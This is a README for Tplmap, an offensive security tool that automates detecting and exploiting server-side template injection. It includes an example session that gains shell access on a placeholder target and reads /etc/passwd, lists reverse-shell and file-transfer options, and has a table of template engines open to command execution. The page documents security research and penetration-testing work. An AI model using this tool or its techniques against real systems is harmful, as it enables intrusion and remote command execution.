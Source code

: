 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researches and penetration testers, to detect and exploit vulnerabilities and study the template injection vulnerability class.

The plugin architecture makes easy to extend the tool and support new template engines and techniques. The sandbox break-out methodologies came from James Kett's research [Server-Side Template Injection: RCE For The Modern Web App][1] and [other][2] original [techniques][3] found during the development of Tplmap.

Tplmap is able to detect and achieve arbitrary command execution in several exploitation scenarios as blind injections and code contexts injections.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'id'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
  
   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

   --os-shell or --os-cmd to execute shell commands via the injection
   --upload LOCAL REMOTE to upload files to the server
   --download REMOTE LOCAL to download remote files
   --bind-shell PORT to bind a shell on a port and connect to it
   --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection          | Command execution | Code evaluation | File read | File write |
|--------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako               |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2             |  render+blind      | yes               | python          | yes       | yes        |
| Nunjucks           |  render+blind      | yes               | javascript      | yes       | yes        |
| Jade               |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker         |  render+blind      | yes               | no              | yes       | yes        |
| Velocity           |  render+blind      | yes               | no              | yes       | yes        |
| Twig               |  render            | no                | no              | no        | no         |
| Smarty (secured)   |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

